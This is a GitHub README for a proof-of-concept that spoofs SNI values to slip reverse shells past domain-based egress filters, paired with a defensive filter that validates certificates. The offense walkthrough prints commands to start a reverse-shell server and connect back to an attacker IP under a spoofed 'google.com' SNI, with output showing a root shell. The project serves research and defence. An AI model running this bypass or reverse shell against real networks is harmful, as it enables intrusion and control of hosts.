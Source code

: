 # SNI Manipulation

This project demonstrates a proof-of-concept for Server Name Indication (SNI)
manipulation in TLS connections to bypass egress HTTP traffic controls that
filter by domain.

This PoC includes a Terraformed AWS environment and client/server implementations in Go and TypeScript to demonstrate sending reverse shells with spoofed SNI
values to bypass egress HTTP controls. The reverse shells are sent over a WebSocket connection.

A defensive PoC tool is included that explores possible countermeasures.
It filters TLS traffic by SNI value, like Squid proxy, and then goes one step further by validating the target server's certificate. The certificate
validation result is cached for performance, like a stateful firewall does.

## Background

SNI manipulation is a technique to bypass HTTP traffic controls that filter by domain by forging the SNI value in the TLS handshake.

IP addresses are ephemeral and change often with cloud-hosted services, making IP address filters harder to maintain and more likely to break.
Domain filtering is easier to maintain and is less likely to break, but most connections are encrypted by default.
There are two options for filtering encrypted traffic by domain:
1. SNI inspection of the TLS handshake
2. TLS decryption and inspection of the payload

SNI inspection relies on a value supplied by the client during the TLS handshake, a variant of "trusting the client".
This opens domain filtering by SNI inspection up to spoofing attacks (SNI manipulation).

## Build the PoC and Login to the Hosts

Build the Go server, client, and filter. The binaries are placed in the `dist` directory.

```sh
make build
```

Build the Terraformed AWS environment (or use your own).

```sh
cd terraform-aws-sni-filter
terraform init
terraform apply
```

Connect to each host with the following scripts:
- The filtering NAT instance: `./scripts/nat-login.sh`
- The "attacker" host: `./scripts/attacker-login.sh`
- The internal host: `./scripts/internal-login.sh`

## Getting Started

### SNI Bypass (Offense)

On the intermediate router/NAT host, run the filtering proxy that blocks TLS
traffic by SNI value. This works just like Squid proxies, AWS Network Firewall,
and other TLS inspection proxies.
The host's `iptables` rules will transparently redirect HTTPS traffic to the filtering proxy PoC.

```sh
./filter --domain-file domains.txt --default deny
Allowing domain: ubuntu.com
Allowing domain: .github.com
Allowing domain: google.com
Allowing domain: .google.com
TLS filter listening on port 3130
```

On the "attacker" host, run the server that accepts reverse shells.
The server will listen on all interfaces on port 443. The `sudo` command is
required to bind to port 443.

```sh
sudo ./server 0.0.0.0 443
WebSocket Server is running on wss://0.0.0.0:443
```

On the internal host, run the client to launch a reverse shell at the attacker
server with a spoofed SNI value.

```sh
./client $attacker_ip 443 google.com
```

When the client connects to the server with a forged SNI value, the filtering
proxy will allow the connection because the SNI value is spoofed with `google.com`.
The attacker's server will receive the reverse shell and can begin issuing
commands on the internal host.

```sh
[ec2-user@ip-10-0-1-146 ~]$ sudo ./server 0.0.0.0 443
WebSocket Server is running on wss://0.0.0.0:443

Reverse shell established!

ec2-user@ip-10-0-2-50.ec2.internal:/home/ec2-user $ sudo whoami
root
```

### SNI Filtering With Certificate Validation (Defense)

The filtering proxy PoC has a `--verify` flag that validates the target server's certificate. If the target server does not have a valid certificate that matches the SNI value, the connection is blocked. If the target server has a valid certificate that matches the SNI value, the connection is allowed and the result is cached for performance.
Think of it like a stateful firewall with [`conntrack`](https://man.archlinux.org/man/conntrack.8.en) for TLS connections and domains.

```sh
./filter --domain-file domains.txt --default deny --verify
Certificate verification enabled
Allowing domain: ubuntu.com
Allowing domain: .github.com
Allowing domain: google.com
Allowing domain: .google.com
TLS filter listening on port 3130
```

Now when the client attempts to connect to the attacker server with a forged SNI value...

```sh
./client $attacker_ip 443 google.com
Error connecting to WebSocket server:remote error: tls: bad certificate
```

... the filtering proxy will block the connection with the error "invalid certificate".

```sh
Allowed TLS connection from [10.0.2.50:35006] to [172.253.63.139:443] with SNI [google.com]
Blocked TLS connection from [10.0.2.50:58322] to [100.26.145.239:443] with SNI [google.com] (invalid certificate)
```

The filtering proxy asked the attacker's server for a certificate for `google.com` and tried to validate it. When the attacker's server did not have a valid certificate for `google.com`, the filtering proxy blocked the connection.

## Ethical Considerations

This example is intended for educational and research purposes only. Always obtain proper authorization before testing on any networks or systems you do not own or have explicit permission to test.
